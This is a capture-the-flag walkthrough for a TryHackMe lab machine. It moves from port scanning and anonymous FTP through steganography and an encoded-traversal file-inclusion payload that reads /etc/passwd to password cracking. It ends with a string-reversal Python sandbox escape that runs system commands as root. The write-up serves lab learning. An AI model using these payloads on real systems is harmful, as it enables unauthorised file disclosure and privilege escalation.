

|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Medium   |  |   10.10.3.234 |  | [Tokyo Ghoul](https://tryhackme.com/room/tokyoghoul666) |  |

### [ Use nmap to scan all ports. ]

Let's start off with a full `nmap` scan on the target machine. We'll run it with standard scripts (-sC) loaded and version enumeration (-sV) enabled. We'll also run the scan on all ports.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.3.234
```

---

### [ How many ports are open? ]

The results of the nmap scan reveals that **3** ports are open on the target machine:

```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Looks like we have a **FTP**, **SSH** and **HTTP** server running.

---

### [ What is the OS used? ]

nmap also reveals that the HTTP server is running on Apache, which uses the **Ubuntu** operating system.


---

### [ Did you find the note that the other ghouls gave you? Where did you find it? ]

Let's visit the HTTP website first:


We are brought to a Tokyo Ghoul themed webpage.

At the bottom of the page, there is a link titled "Can you help him escape?". 

Clicking on the link brings us to the subdirectory: **/jasonroom.html**


If we look at the source code of this page, we can find the hidden note that the other ghouls gave us:


The note is found at **/jasonroom.html**.

---

### [ What is the key for Rize executable? ]

The note tells us to go to the **FTP** server and look **'anonymous'**. This is most probably a hint that **anonymous login** is enabled on the FTP server. Anonymous login allows us to log into the server without needing a password, which is great for hackers as they are able to access the files within the server without authenticating.

In fact, nmap has already found out that anonymous login is enabled:


With that, let's go ahead and log into the FTP server:


The server contains a few directories and files. After exploring all of them, I managed to download 3 files: 

* **Aogiri_tree.txt (text file)**



Does not seem to contain anything of use right now.

* **rize_and_kaneki.jpg (image)**


Oh look, a sweet photo of a loving couple! I'm sure there's nothing messed up with them whatsoever :smirk:

I tried to check this image for any embedded data using `steghide`:

``` 
steghide extract -sf rize_and_kaneki.jpg
```


Unfortunately, we need a passphrase.

I then used [stegseek](https://github.com/RickdeJager/stegseek) to carry out a dictionary attack using the rockyou.txt wordlist:

```
stegseek rize_and_kaneki.jpg /usr/share/wordlists/rockyou.txt
```


No luck here either. Let's move on for now.

* **need_to_talk (executable)**

Running this executable prompts us for another passphrase:


The passphrase can be found with a simple use of the `strings` command on the executable:

```
strings need_to_talk
```


The passphrase is:

> kamishiro

Let's try inputting **kamishiro** into the executable:


It seems that we have received another passphrase:

> You_found_1t

---

### [ Use a tool to get the other note from Rize. ]

Now we can try to input our newfound passphrase when extracting data from **rize_and_kaneki.jpg** using `steghide`:


We successfully extracted the embed data into a file called **yougotme.txt**:


---

### [ What the message means, did you understand it? What does it say? ]

yougotme.txt contains a message that seems to be encoded in morse code!

We can throw the code into [cyberchef](https://gchq.github.io/CyberChef/) and decode it:


The decoded message reveals a bunch of hexadecimal characters. Let's go ahead and convert them into ASCII:


And we get a base64-encoded message. Let's decode it once more:


The hidden message is revealed: **d1r3c70ry_center**

---

### [ Can you see the weakness in the dark? No? Just search. ]

**d1r3c70ry_center** is most probably a subdirectory on the HTTP web server. Let's try visiting it:


We come to a page that tells us to scan it. Let's run a `gobuster` scan to enumerate any hidden subdirectories:

```
gobuster dir -u http://10.10.3.234/d1r3c70ry_center/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,js -t 50
```


After some time, Gobuster managed to discover the **/claim** directory:


We are brought to a page with 3 buttons: 'MAIN PAGE', 'YES' and 'NO'

Clicking on either the 'YES' or 'NO' buttons will lead us to the same empty page:


What immediately caught my attention was the **view** parameter in the url. Could this be susceptible to a local file inclusion attack? 

Let's try to read the **/etc/passwd** file on the machine. We can do so with basic directory traversal:

```
http://10.10.3.234/d1r3c70ry_center/claim/index.php?view=../../../../../../../etc/passwd
```


Hmmm looks like there is some sort of filtering / checking going on. 

From here, I tried many different [LFI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) before I found one that worked. Turns out we have to encode both the `/` and the `.` characters:

```
http://10.10.3.234/d1r3c70ry_center/claim/index.php?view=%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
```


---

### [ Did you find something? Crack it. ]

The /etc/passwd file reveals a user called **kamishiro**. Fortunately for us, his hashed password is also available in the file.

We can use `john` to crack the password. We'll copy the entire last-line of the /etc/passwd file into a text file called 'hash'. Then we'll run the following command:

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


It only took a few seconds before `john` managed to crack kamishiro's password:

> password123

---

### [ what is rize's username? ]

Rize's username is **kamishiro**.

---

### [ what is rize's password? ]

Rize's password is **password123**

---

### [ user.txt ]

Let's now log into kamishiro's SSH account:


We can then grab the **user flag** located in their home directory:


---

### [ root.txt ]

Now we need to find a way to escalate our privileges.

kamishiro's home directory contains an interesting python script called **jail.py** that is owned by root: 


Let's take a look at kamishiro's sudo privileges. We can do so with  `sudo -l`:


Nice! Looks like kamishiro can run the jail.py script as root. This is most certainly our escalation vector.

Let's now analyze the script.

**Contents of jail.py:**

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

jail.py simply prompts the user to input python code, which will then be executed by the script using the exec() function. What's important to note is that the script is placed in a sandbox, as users are prevented from inputting certain python code like `os` and `import`. 

I found it quite difficult to escape the sandbox as I was unable to import any libraries. This prevented me from using libraries like `subprocess`, which would allow me to run system commands.

After doing some research, I came across this [site](https://www.reelix.za.net/2021/04/the-craziest-python-sandbox-escape.html) which provides a few methods on breaking out of the sandbox.

The website advises to use the following payload:

```
getattr(getattr(__builtins__,'__tropmi__'[::-1])('so'[::-1]),'metsys'[::-1])('whoami');
```

---

**What is getattr()?**

*From [StackOverflow](https://stackoverflow.com/questions/4075190/what-is-getattr-exactly-and-how-do-i-use-it):*

*Objects in Python can have attributes -- data attributes and functions to work with those (methods). For example you have an object `person`, that has several attributes: `name`, `gender`, etc. You access these attributes (be it methods or data objects) usually by writing: `person.name`, `person.gender`, `person.the_method()`, etc.*

*But what if you don't know the attribute's name at the time you write the program? For example you have the attribute's name stored in a variable called `attr_name`.*

*if*

```py
attr_name = 'gender'
```

*then, instead of writing*

```py
gender = person.gender
```

*you can write*

```
gender = getattr(person, attr_name)
```

*One good thing about using getattr() is that it provides error handling as well. For eg, if the 'age' attribute does not exist, we can provide a third argument to getattr(), which will then be returned*

```
>>> getattr(person, 'age', 0)
0
```

---

**What is \__builtins__?**

All of Python's built-in functions can be found [here](https://docs.python.org/3/library/functions.html).

*The builtins module is automatically loaded every time Python interpreter starts. All built-in data type classes such as numbers, string, list etc are defined in this module. The BaseException class, as well as all built-in exceptions, are also defined in it. Further, all built-in functions are also defined in the built-ins module.*

*We can call these built-in functions using the builtins module. For eg:*

```
>>> len('hello')
5
```

*is the same as*

```
>>> import builtins
>>> builtins.len('hello')
5
```

---

Looks like the payload does some sneaky string reversal to bypass the string matching done by the script.  After all, **'\__tropmi__'[::-1]** is essentially the same as **'\__import__'**. 

We then use the getattr() function to import the `os` library, which is also string-reversed. From there, getattr() is used once again to call the `system()` method in the `os` library, which allows us to run any system commands.

Let's try it out:


Great! We have achieved code execution outside of the Python sandbox. Now we just alter our payload as such:

```
getattr(getattr(__builtins__,'__tropmi__'[::-1])('so'[::-1]),'metsys'[::-1])('cat /root/root.txt');
```

With that, we are able to directly read out the **root flag** from /root:

